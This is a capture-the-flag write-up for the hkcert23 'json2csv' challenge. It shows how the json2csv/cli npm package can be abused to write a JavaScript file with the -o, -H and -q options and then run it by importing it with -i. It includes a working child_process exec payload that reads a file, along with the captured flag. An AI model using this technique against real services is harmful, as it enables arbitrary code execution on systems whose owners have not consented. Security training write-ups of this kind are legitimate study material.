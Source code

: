 # json2csv

## Challenge

The website lets us provide a stdin and command line options to be passed to the json2csv/cli npm package.
The website then responds with the stdout from running the command.

## Solution

When using an input file path (`-i`) and no streaming (`-s`), json2csv/cli reads the file contents as follows:

```ts
async function getInputJSON<TRaw>(inputPath: string): Promise<TRaw> {
  const assert =
    extname(inputPath).toLowerCase() === '.json'
      ? { assert: { type: 'json' } }
      : undefined;
  const { default: json } = await import(`file://${inputPath}`, assert);
  return json;
}
```

If the file extension is not `.json`, the file can be of any type and it will be imported.
We can instead provide a JavaScript file to be executed at this stage.

To write the JavaScript file, we use the `-o` option to specify an output file.
We also need `-H` to remove the default csv header, and `-q ""` to use an empty string instead of double quotes for quoting our values.
This lets us write nearly arbitrary contents to a file.

When we later import the file as described above, it will execute our code and allow us to read the flag.

### Stage 1:

#### Input

```
{"A":"const { exec } = require('child_process');exec('cat /proof.sh', (err, stdout, stderr) => {console.log(stdout);});"}
```

#### Command Line Options

```
-H -q  -o /tmp/desp_is_cool.js
```

### Stage 2:

#### Input

```
```

#### Command Line Options

```
-s -i /tmp/desp_is_cool.js
```

## Flag

```
hkcert23{Y_not_ju$tuse_za--N0DE_package?!}
```
